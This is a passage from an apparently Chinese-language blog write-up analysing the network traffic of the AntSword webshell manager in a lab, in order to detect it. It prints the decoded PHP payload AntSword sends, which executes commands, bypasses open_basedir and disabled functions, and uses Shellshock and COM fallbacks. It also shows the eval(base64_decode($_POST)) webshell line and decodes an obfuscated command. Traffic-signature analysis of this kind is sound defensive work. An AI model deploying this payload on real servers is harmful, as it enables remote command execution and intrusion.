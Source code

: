 # AntSword中国蚁剑



## 概述

AntSword中国蚁剑是一款webshell管理工具，提供了多种连接webshell的方式，以及针对防火墙过滤敏感报文的流量编码或加密的解决方案。一般来说，AntSword用来连接PHP一句话木马，即俗称的小马。蚁剑的使用方法很简单，这里主要谈蚁剑的流量特征。



## 环境

启动一台web服务器，模拟被攻击服务器，假设其存在文件上传漏洞并被注入webshell。

服务器：192.168.171.130

攻击机：192.168.171.1

攻击机使用AntSword连接提前上传的木马，然后在其终端中输入`ifconfig`命令：

![image-20240326204400487](../img/image-20240326204400487.png)

此时，在wireshark中抓包，抓取其通信过程：

```bash
// wireshark过滤特定IP：
ip.addr == 192.168.171.130
```

![image-20240326204513488](../img/image-20240326204513488.png)

追踪其主要的http流：

![image-20240326205333185](../img/image-20240326205333185.png)

获得了一大串编码后的数据。观察其编码格式，得知是url编码和base64编码。通过解码url和base64得到代码：

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.c781c4";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return @base64_encode($out);};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "7c11b"."d3b4f9";echo @asenc($output);echo "640c3"."c055b";}ob_start();try{$p=base64_decode(substr($_POST["m5230aae760808"],2));$s=base64_decode(substr($_POST["gb3861a0e3b5a5"],2));$envstr=@base64_decode(substr($_POST["x2b1862bc70d6e"],2));$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";if(substr($d,0,1)=="/"){@putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");}else{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}if(!empty($envstr)){$envarr=explode("|||asline|||", $envstr);foreach($envarr as $v) {if (!empty($v)) {@putenv(str_replace("|||askey|||", "=", $v));}}}$r="{$p} {$c}";function fe($f){$d=explode(",",@ini_get("disable_functions"));if(empty($d)){$d=array();}else{$d=array_map('trim',array_map('strtolower',$d));}return(function_exists($f)&&is_callable($f)&&!in_array($f,$d));};function runshellshock($d, $c) {if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {if (strstr(readlink("/bin/sh"), "bash") != FALSE) {$tmp = tempnam(sys_get_temp_dir(), 'as');putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");if (fe('error_log')) {error_log("a", 1);} else {mail("a@127.0.0.1", "", "", "-bv");}} else {return False;}$output = @file_get_contents($tmp);@unlink($tmp);if ($output != "") {print($output);return True;}}return False;};function runcmd($c){$ret=0;$d=dirname($_SERVER["SCRIPT_FILENAME"]);if(fe('system')){@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);print(join("
",$o));}elseif(fe('popen')){$fp=@popen($c,'r');while(!@feof($fp)){print(@fgets($fp,2048));}@pclose($fp);}elseif(fe('proc_open')){$p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);while(!@feof($io[1])){print(@fgets($io[1],2048));}while(!@feof($io[2])){print(@fgets($io[2],2048));}@fclose($io[1]);@fclose($io[2]);@proc_close($p);}elseif(fe('antsystem')){@antsystem($c);}elseif(runshellshock($d, $c)) {return $ret;}elseif(substr($d,0,1)!="/" && @class_exists("COM")){$w=new COM('WScript.shell');$e=$w->exec($c);$so=$e->StdOut();$ret.=$so->ReadAll();$se=$e->StdErr();$ret.=$se->ReadAll();print($ret);}else{$ret = 127;}return $ret;};$ret=@runcmd($r." 2>&1");print ($ret!=0)?"ret={$ret}":"";;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();
```

这是一段蚁剑用于实现交互式shell的代码，可以根据其`@ini_set("display_errors", "0");`代码，判断其为蚁剑流量。

仔细观察密文的后面一部分：

```php
gb3861a0e3b5a5=LXY2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkIjtpZmNvbmZpZztlY2hvIDFjYTI5OTk7cHdkO2VjaG8gNzExYzlmN2E5NQ==&m5230aae760808=fvL2Jpbi9zaA==&shell=@eval(@base64_decode($_POST['e0cd856462676e']));&x2b1862bc70d6e=x
```

有一个`base64_decode()`函数以及`eval()`函数，一个是用于base64解码的，而`eval()`函数则是能将其参数作为php代码执行，如果其参数是有意义的php代码的话。

观察代码的这一部分：

```php
try{$p=base64_decode(substr($_POST["m5230aae760808"],2));$s=base64_decode(substr($_POST["gb3861a0e3b5a5"],2));$envstr=@base64_decode(substr($_POST["x2b1862bc70d6e"],2));
```

这里的三个很像乱码的字符串其实是密文后面的三个参数名，注意看`$_POST`中的变量。其中，我们输入的命令`ifconfig`主要在`gb3861a0e3b5a5`中，其密文为：

```php
gb3861a0e3b5a5=LXY2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkIjtpZmNvbmZpZztlY2hvIDFjYTI5OTk7cHdkO2VjaG8gNzExYzlmN2E5NQ==
```

这是一个经过混淆了的base64编码的字符串。这里就要讲到蚁剑的流量机密技术了。

蚁剑的流量加密技术很简单粗暴，就是在已经编好的base64编码的字符串前面加上混淆字符。这个混淆字符可以自定义个数，默认为两个。以这个密文为例，那么没有被混淆的base64编码其实为：

```php
Y2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkIjtpZmNvbmZpZztlY2hvIDFjYTI5OTk7cHdkO2VjaG8gNzExYzlmN2E5NQ==
```

删除了前面的`L` `X`两个字符。

解密后的代码为：

```shell
cd "/var/www/html/upload";ifconfig;echo 1ca2999;pwd;echo 711c9f7a95
```

可以看到这是一个系统命令，我们输入的`ifconfig`命令就在其中。

比起蚁剑上传到服务器的流量，服务器下发到蚁剑的流量就简单很多了，因为是明文的，我们可以找到其

